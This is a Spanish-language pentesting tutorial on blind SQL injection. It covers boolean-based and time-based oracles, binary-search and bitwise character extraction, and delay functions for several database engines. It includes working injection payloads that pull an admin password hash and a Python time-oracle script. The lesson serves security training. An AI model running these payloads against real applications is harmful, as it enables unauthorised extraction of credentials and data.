




# Lección 05: Inyecciones SQL a ciegas (Boolean-based y Time-based)

[Inicio](../../../README.md) | [Pentesting Web](../../README.md) | [Módulo SQLi](../README.md) | [Anterior: Inyecciones SQL basadas en error](../04-error-based-sqli/README.md) | [Siguiente: Explotación avanzada: Archivos, RCE y OOB](../06-explotacion-avanzada-archivos-rce-oob/README.md)

> [!CAUTION]
> Las inyecciones basadas en tiempo pueden saturar el grupo de conexiones (*connection pool*) del servidor de base de datos. Ejecuta estas pruebas de forma controlada y con retardos mínimos en entornos de auditoría autorizados.

## Introducción

Una **inyección SQL a ciegas** (*Blind SQL Injection*) ocurre cuando la aplicación web ejecuta consultas SQL modificadas por datos del usuario, pero **no proyecta ningún dato** en la respuesta HTTP ni expone mensajes de error del motor de base de datos.

En este escenario, el auditor no puede leer registros directamente ni forzar excepciones legibles. La extracción de información se logra transformando la vulnerabilidad en un canal de comunicación binario mediante el diseño de un **oráculo**. El oráculo evalúa proposiciones lógicas (*True* / *False*) y manifiesta el resultado a través de diferencias observables en el comportamiento del servidor web: cambios en el contenido devuelto (**Boolean-based**) o variaciones en el tiempo de respuesta (**Time-based**).



---

## 1. El concepto del oráculo de inferencia

Un **oráculo** es una función lógica en el servidor que recibe una proposición $P$ y responde de forma determinista con dos estados distinguibles:

$$\text{Oráculo}(P) = \begin{cases} \text{Verdadero} & \text{si } P \text{ es válida} \\ \text{Falso} & \text{si } P \text{ es inválida} \end{cases}$$

Toda extracción de datos en inyecciones ciegas se reduce a formular una secuencia sistemática de preguntas booleanas a este oráculo para reconstruir caracteres, números y estructuras completas.

---

## 2. Inyecciones ciegas basadas en inferencia booleana

En la **inyección booleana**, la validez de la condición inyectada modifica alguna propiedad estática de la respuesta HTTP:

1. **Código de estado HTTP**: `200 OK` frente a `500 Internal Server Error` o `404 Not Found`.
2. **Longitud de respuesta (*Content-Length*)**: Variación en el tamaño del cuerpo devuelto al renderizar o suprimir bloques visuales.
3. **Presencia o ausencia de patrones en el DOM**: Aparición de mensajes condicionales como *"Usuario encontrado"*, *"Artículo disponible"* o enlaces condicionales de perfil.



### Determinación de la longitud de un dato

Antes de extraer una cadena de texto (por ejemplo, el hash de una contraseña), se descubre su longitud exacta formulando comparaciones aritméticas con la función `LENGTH()` (en MariaDB/MySQL/PostgreSQL) o `LEN()` (en MSSQL):

```sql
-- ¿La contraseña del usuario admin tiene más de 10 caracteres?
' AND (SELECT LENGTH(password) FROM users WHERE username = 'admin') > 10-- -

-- ¿Tiene exactamente 20 caracteres?
' AND (SELECT LENGTH(password) FROM users WHERE username = 'admin') = 20-- -
```

### Extracción de caracteres mediante funciones de cadena y ordinales

Para recuperar el texto de forma unívoca, se aísla cada posición con `SUBSTRING()` y se convierte a su código numérico ASCII con `ASCII()`:

- `SUBSTRING(cadena, posicion, longitud)`: Extrae un fragmento de longitud `longitud` a partir del índice `posicion` (en SQL los índices inician en `1`).
- `ASCII(caracter)`: Convierte el carácter a su representación entera en la tabla ASCII (por ejemplo, `'a'` $\to 97$, `'A'` $\to 65$, `'0'` $\to 48$).

```sql
-- Verificar si el primer carácter de la contraseña es 'a' (ASCII 97)
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username = 'admin'), 1, 1)) = 97-- -
```

---

## 3. Algoritmos de optimización para inferencia booleana

La búsqueda lineal exhaustiva (probar secuencialmente los 95 caracteres imprimibles del 32 al 126) es ineficiente y genera un volumen elevado de tráfico detectable por sistemas IDS/WAF.



### Algoritmo 1: Búsqueda binaria (Bisección)

El espacio de búsqueda de caracteres ASCII estándar abarca de 0 a 127. Aplicando búsqueda binaria, el intervalo se divide a la mitad en cada paso, determinando cualquier carácter en exactamente $\lceil \log_2(128) \rceil = 7$ peticiones HTTP.

1. **Límite inferior ($L$) = 0**, **Límite superior ($U$) = 127**.
2. Calcular punto medio: $M = \lfloor (L + U) / 2 \rfloor = 63$.
3. Consultar: `ASCII(SUBSTRING(password, 1, 1)) BETWEEN L AND M`.
4. Si es verdadero, el valor está en la mitad inferior: $U = M$. Si es falso: $L = M + 1$.
5. Repetir hasta que $L = U$.

```sql
-- Paso 1: ¿Está entre 0 y 63?
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1)) BETWEEN 0 AND 63-- -
```

### Algoritmo 2: Evaluación a nivel de bits (*SQL-Anding*)

Todo carácter ASCII imprimible (0-127) se representa en 7 bits binarios ($b_6 b_5 b_4 b_3 b_2 b_1 b_0$). Utilizando el operador de conjunción a nivel de bits `&` (*bitwise AND*), se consulta de forma independiente si cada bit individual está activo:

$$(Valor \ \& \ 2^k) > 0$$

Para extraer un carácter, se realizan 7 consultas fijas con las potencias de dos ($1, 2, 4, 8, 16, 32, 64$):

```sql
-- ¿El bit 0 (peso 1) es 1?
' AND (ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1)) & 1) > 0-- -

-- ¿El bit 3 (peso 8) es 1?
' AND (ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1)) & 8) > 0-- -
```

Si las consultas para los pesos 1, 8, 16 y 32 resultan verdaderas:

$$Valor = 1 + 8 + 16 + 32 = 57 \implies \text{Carácter } '9'$$

---

## 4. Inyecciones ciegas basadas en tiempo (Time-based SQLi)

Cuando la aplicación devuelve exactamente la misma respuesta HTTP (mismo código de estado, cabeceras y cuerpo) con independencia de que la condición sea verdadera o falsa, el único canal de información utilizable es el **tiempo de procesamiento del servidor**.

### Funciones de retardo temporal por motor

Cada gestor de base de datos implementa mecanismos propios para suspender la ejecución del hilo durante un intervalo determinado:

| Gestor RDBMS | Función / Sentencia | Ejemplo de retardo de 5 segundos |
|---|---|---|
| **MariaDB / MySQL** | `SLEEP(segundos)` | `SELECT SLEEP(5);` |
| **Microsoft SQL Server** | `WAITFOR DELAY 'hh:mm:ss'` | `WAITFOR DELAY '0:0:5';` |
| **PostgreSQL** | `pg_sleep(segundos)` | `SELECT pg_sleep(5);` |
| **Oracle** | `dbms_pipe.receive_message()` | `SELECT dbms_pipe.receive_message(('a'), 5) FROM dual;` |
| **SQLite** | Bucle pesado con `randomblob()` | `like('ABC', upper(hex(randomblob(500000000/2))))` |



### Construcción de oráculos condicionales por gestor

Para asociar el retardo temporal exclusivamente al cumplimiento de una hipótesis lógica, se utilizan estructuras de control condicional (`IF` o `CASE`):

#### MySQL / MariaDB

```sql
' AND IF(ASCII(SUBSTRING((SELECT database()), 1, 1)) = 116, SLEEP(5), 0)-- -
```

#### Microsoft SQL Server (MSSQL)

En MSSQL, `WAITFOR DELAY` es una sentencia de control de flujo, por lo que requiere terminadores de sentencia (inyección apilada o bloques `IF` directos):

```sql
'; IF (ASCII(SUBSTRING((SELECT db_name()), 1, 1)) = 109) WAITFOR DELAY '0:0:5'-- -
```

#### PostgreSQL

En PostgreSQL, `pg_sleep()` se inserta dentro de una expresión `CASE`:

```sql
' || (SELECT CASE WHEN (ASCII(SUBSTRING(current_database(), 1, 1)) = 112) THEN pg_sleep(5) ELSE pg_sleep(0) END)-- -
```

---

## 5. Scripting y calibración del umbral frente a fluctuaciones de red

La automatización de inyecciones basadas en tiempo exige compensar la **latencia de red** y el **jitter** (fluctuación estadística del tiempo de ida y vuelta o RTT).

### Reglas de calibración técnica

1. **Retardo base controlado**: Se selecciona un intervalo de retardo en la base de datos (por ejemplo, 3 a 5 segundos) significativamente superior a la media de latencia de la conexión ($RTT_{avg} \approx 0.1\text{ s}$).
2. **Definición del umbral (*threshold*)**:
   $$\text{Umbral} = \text{Retardo inyectado} \times 0.8$$
   Para un retardo de 5 segundos, una respuesta que tarde más de 4.0 segundos se clasifica como `True`.
3. **Retentativa ante falsos positivos**: Si una petición excede el umbral, se repite la validación una segunda vez para descartar picos de carga transitorios en la red o en el servidor.

### Ejemplo de implementación del oráculo en Python

```python
import requests
import time

TARGET_URL = "http://app.example.com/profile"
DELAY = 3
THRESHOLD = DELAY * 0.8

def time_oracle(payload_condition):
    injection = f"admin' AND IF(({payload_condition}), SLEEP({DELAY}), 0)-- -"
    params = {"username": injection}
    
    start_time = time.time()
    try:
        requests.get(TARGET_URL, params=params, timeout=DELAY + 4)
        elapsed = time.time() - start_time
        return elapsed >= THRESHOLD
    except requests.exceptions.Timeout:
        return True

# Validar calibración
print("Prueba 1=1 (True):", time_oracle("1=1"))
print("Prueba 1=0 (False):", time_oracle("1=0"))
```

---

## 6. Comparativa técnica de vectores de inyección a ciegas

| Parámetro | Inferencia Booleana | Inferencia Temporal |
|---|---|---|
| **Canal de retroalimentación** | Contenido HTTP (código, tamaño, texto) | Latencia y tiempo de respuesta ($T_{elapsed}$) |
| **Velocidad de extracción** | Alta (~10-50 consultas/segundo según ancho de banda) | Lenta (~1 carácter cada 20-35 segundos) |
| **Sensibilidad a ruido de red** | Baja | Alta (afectada por jitter y congestión) |
| **Impacto en el servidor** | Bajo | Moderado a alto (hilos de ejecución suspendidos) |
| **Técnicas de optimización** | Búsqueda binaria (bisección), bitwise ANDing | Búsqueda binaria, reducción de muestras |

---

## Cheatsheet

Referencia rápida del capítulo en formato PDF: [cheatsheet.pdf](./cheatsheet.pdf).

---

[Anterior: Inyecciones SQL basadas en error](../04-error-based-sqli/README.md) | [Volver al índice del módulo](../README.md) | [Siguiente: Explotación avanzada: Archivos, RCE y OOB](../06-explotacion-avanzada-archivos-rce-oob/README.md)
